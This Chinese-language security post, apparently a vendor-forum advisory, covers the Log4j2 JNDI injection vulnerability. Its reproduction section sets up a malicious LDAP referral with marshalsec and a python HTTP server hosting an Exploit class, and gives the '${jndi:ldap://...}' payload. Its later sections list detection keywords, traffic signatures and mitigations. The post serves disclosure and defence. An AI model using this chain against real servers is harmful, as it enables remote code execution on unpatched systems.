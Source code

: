 简介
==

Apache Log4j是Apache的一个开源项目，Apache log4j2是Log4j的升级版本，我们可以控制日志信息输送的目的地为控制台、文件、GUI组件等，通过定义每一条日志信息的级别，能够更加细致地控制日志的生成过程。

漏洞描述
====

Log4j2中存在JNDI注入漏洞，当程序将用户输入的数据进行日志记录时，即可触发此漏洞，成功利用此漏洞可以在目标服务器上执行任意代码。经验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等众多组件与大型应用均受影响。鉴于此漏洞危害巨大，利用门槛极低。

影响范围
====

Apache Log4j 2.x &lt; 2.15.0-rc2

当前漏洞状态
======

技术细节-已公开  
PoC状态-已公开  
EXP状态-已公开  
在野利用-已发现

风险评级
====

紧急较大事件

漏洞复现：
=====

**1、复现pom文件，需要引入的jar：**

```html
<dependencies>
    <dependency>
        <groupId>org.apache.logging.log4j</groupId>
        <artifactId>log4j-core</artifactId>
        <version>2.14.1</version>
    </dependency>
    <dependency>
        <groupId>org.apache.logging.log4j</groupId>
        <artifactId>log4j-api</artifactId>
        <version>2.14.1</version>
    </dependency>
</dependencies>
```

**2、POC内容：**

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7dbe412e6717d8321e2afd45ef23a1d08ea57cb7.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7dbe412e6717d8321e2afd45ef23a1d08ea57cb7.png)

**3、Exploit内容**

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-160406e18deccd0835881dbf6c56856daa2df11c.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-160406e18deccd0835881dbf6c56856daa2df11c.png)

**4、使用java编译一个class文件**

javac Exploit.java

**5、使用python开启http服务(其他也行)**

将Exploit.class文件放入http服务目录(在哪个文件夹下启动，显示的就是当前文件夹的文件，默认是 8000，指定了端口之后，访问就是指定的端口)

python3
=======

python -m http.server 4444

python2
=======

python -m SimpleHTTPServer 4444

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2bf6325858af083f57be5ff97b07df3ae0003269.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2bf6325858af083f57be5ff97b07df3ae0003269.png)

**6、marshalsec工具启动LDAP服务**   
不指定端口：

```html
marshalsec-master\marshalsec-master\target>java -cp marshalsec-0.0.3-SNAPSHOT- all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:4444/#Exploit 不指定端口默认是1389 Exploit是文件名称 
```

指定端口：

```html
marshalsec-master\marshalsec-master\target>java -cp marshalsec-0.0.3-SNAPSHOT- all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#Exploit 1099 
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-306c0712c97d737424caab80dfbd6015812d77c1.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-306c0712c97d737424caab80dfbd6015812d77c1.png)

**7、执行poc**  
运行poc中的代码可以看到Exp中的代码已经被运行

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4c47433fea3eba07ea41970c973a984a1ad47ece.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4c47433fea3eba07ea41970c973a984a1ad47ece.png)

首先需要在公网执行marshalsec启动LDAP服务，目的是为了让目标能够读取到我们的Exp ,参数中提交 payload: "${jndi:ldap://localhost:1389/Exploit}"。

**8、利用条件**  
当功能传输参数直接输出到日志时，可以构造payload，直接访问。

处置建议
====

**1、漏洞排查**  
排查应用是否引入了 Apache Log4j2 Jar 包，若存在依赖引入，则可能存在漏  
洞影响。

- （a）相关用户可根据 Java JAR 解压后是否存在 org/apache/logging/log4j 相关路径结构，判断是否使用了存在漏洞的组件，若存在相关 Java 程序包，则极可能存在该漏洞。

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f5d642974d6c9164118b499574bff700335acb66.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f5d642974d6c9164118b499574bff700335acb66.png)

- （b）若程序使用 Maven 打包，查看项目的 pom.xml 文件中是否存在如下图所示的相关字段，若版本号为小于 2.15.0-rc2，则存在该漏洞。

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6e127825ca7fe0f0ff1362e25d283ef3966a60cc.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6e127825ca7fe0f0ff1362e25d283ef3966a60cc.png)

- （c）若程序使用 gradle 打包，查看 build.gradle 编译配置文件，若在dependencies 部分存在 org.apache.logging.log4j 相关字段，且版本号为小于 2.15.0-rc2，则存在该漏洞。

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b30eb172555ce54ca6985d0e489558711335b8dd.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b30eb172555ce54ca6985d0e489558711335b8dd.png)

**2、攻击排查**

- 攻击者在利用前通常采用 dnslog 方式进行扫描、探测，对于常见  
    利用方式可通过应用系统报错日志中的  
    "javax.naming.CommunicationException"、  
    "javax.naming.NamingException: problem generating object using object factory"、"Error looking up JNDI resource"关键字进行排查。
- 流量排查：攻击者的数据包中可能存在：“${jndi:rmi”、  
    “${jndi:ldap” 字样，推荐使用奇安信网神网站应用安全云防护系  
    统全流量或 WAF 设备进行检索排查。

**3、修复建议**  
**（1）升级到最新版本：**  
请联系厂商获取修复后的官方版本：<https://github.com/apache/logginglog4j2> ；  
请尽快升级 Apache Log4j2 所有相关应用到最新的 log4j-2.15.0-rc2 版本，地址：<https://github.com/apache/logginglog4j2/releases/tag/log4j-2.15.0-rc2> 或采用奇安信产品解决方案来防护此漏洞。

**（2）缓解措施：**

- 添加 jvm 启动参数 -Dlog4j2.formatMsgNoLookups=true。
- 在应用程序的 classpath 下添加 log4j2.component.properties 配置文件文件，文件内容：log4j2.formatMsgNoLookups=True。
- 设置系统环境变量 FORMAT\_MESSAGES\_PATTERN\_DISABLE\_LOOKUPS 设置为 true。
- 建议 JDK 使用 11.0.1、8u191、7u201、6u211 及以上的高版本。
- 限制受影响应用对外访问互联网。